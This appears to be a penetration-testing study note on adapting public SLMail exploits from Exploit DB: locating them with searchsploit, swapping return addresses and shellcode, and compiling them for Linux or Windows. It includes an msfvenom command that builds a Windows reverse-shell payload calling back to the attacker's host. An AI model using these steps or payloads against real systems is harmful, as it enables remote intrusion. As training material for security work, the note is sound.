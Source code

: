 # Public Exploits

---- REMEMBER NOT TO USE CODE WITHOUT CHECKING IT THROUGHLY FIRST -----

## Sources
* [Security Focus](http://securityfocus.com/)
* [Exploit DB](https://www.exploit-db.com/)
* Searchsploit `searchsploit slmail`

## Cleaning a Exploit (1)
1. Find the exploit using `searchsploit slmail`

2. Copy the file to your working folder `cp /usr/share/exploitdb/platforms/windows/remote/643.c .`

3. Open the file and check it line by line, looking for return addresses and shellcode inparticular, the results can be seen in `643-fixed.c`

   - Return address is incorrect and from the comments is for a different server, change `define retadd "\x9f\x45\x3a\x77" /*win2k server sp4 0x773a459f*/
   ` to `define retadd "\x8f\x35\x4a\x5f" /*JMP ESP*/`
   - The hardcoded shell code isn't for our enviroment so we will need to swap that out to the one we generated `msfvenom -p windows/shell_reverse_tcp LHOST=YO.UR.IP.AD LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   - The offsets also need to be adjusted

4. Then compile using `gcc 643.c -o slmail-linux`

5. Then test our exploit as we did in the linux buffer overflow exercise

## Cleaning a Exploit (2)
1. Find the exploit using `searchsploit slmail`

2. Copy the file to your working folder `cp /usr/share/exploitdb/platforms/windows/remote/646.c .`

3. Open the file and check it line by line, looking for return addresses and shellcode inparticular, the results can be seen in `646-fixed.c`

    - The libraries suggest that this code needs to be compiled in a windows enviroment
    - The shell code is again hardcoded and will need switching out
    - Irrelevent return address for the target
    - The memory allocations need tweaking

4. Compile it using a crosscompiler mingw `i586-mingw32msvc-gcc 646.c -o slmail-windows.exe`

5. Google any error messages (some are likely), in this case we need to add win sock libaries to our compile command `i586-mingw32msvc-gcc 646.c -lws2_32 -o slmail-windows.exe`

6. We can run the windows exe using wine `wine slmail-windows.exe 10.11.5.115` 
